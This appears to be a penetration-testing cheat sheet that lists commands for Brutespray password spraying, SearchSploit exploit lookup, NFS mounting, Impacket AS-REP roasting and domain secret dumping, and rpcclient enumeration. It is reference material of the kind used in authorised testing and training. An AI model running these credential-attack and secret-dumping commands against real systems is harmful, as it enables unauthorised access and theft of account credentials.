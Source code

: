 ### **Brutespray**
| | |
|--|--|
| brutespray -f $NMAP_SCAN_FILE -t 20 | *# simple bruteforce for all services with threads 20* |
| brutespray -f $NMAP_SCAN_FILE -s ftp | *# sprays on only the specified sevice* |
| brutespray -f $NMAP_SCAN_FILE -U $USERNAME_FILE -P $PASSWORD_FILE | *# custome username and password wordlist* |


### **SearchSploit**
| | |
|--|--|
| searchsploit $SERVICE_WITH_VERSION | *# Scans the expoit-db database for publically available exploits* |
| searchsploit -m $E-DB-EXPLOIT-NUMBER | *# mirrors the exploit to the local dir* |



### **Mount**
| | |
|--|--|
| sudo mount $ip:/$FOLDER_NAME ./$MOUNT_DIR | *# mounts the remote share in to specified dir of the local machine* |
| sudo umount $MOUNTED_LOCAL_DIR | *# unmounts the remoted mounted share from the local machine* |




### **Impacket**
| | |
|--|--|
| impacket-rpcdump -port 135 $IP \| grep -E 'MS-EFSRPC\|MS-RPRN\|MS-PAR' | *# scans the port 135 for rpc* |
| impacket-GetNPUsers -userfile $USERLIST -dc-ip $IP -dc-host $DOMAIN_NAME -outputfile $FILENAME $DOMAIN_NAME/ | *# Queries target domain for users with 'Do not require Kerberos preauthentication' set and export their
TGTs for cracking* |
| impacket-secretsdump $DOMAIN_NAME/$USER:'$PASS'@$IP -just-dc | *# Performs various techniques to dump secrets from the remote machine without executing any agent there.* |
| | |
| | |


### **RPCclient**
| | |
|--|--|
| rpcclient -N -U "" -p $PORT $IP | *# Anonymous logon* |
| rpcclient -W WORKGROUP -U username $IP | *# uses workgroup* |
| rpcclient -k $IP | *# Kerberos authentication* |
| srvinfo | # Server info |
| enumdomains | *# Enumerate domains* |
| enumdomusers | *# Enumerate domain users* |
| enumdomgroups | *# Enumerate domain groups* |
| querydominfo | *# Domain info* |
| getusername | *# Current username* |
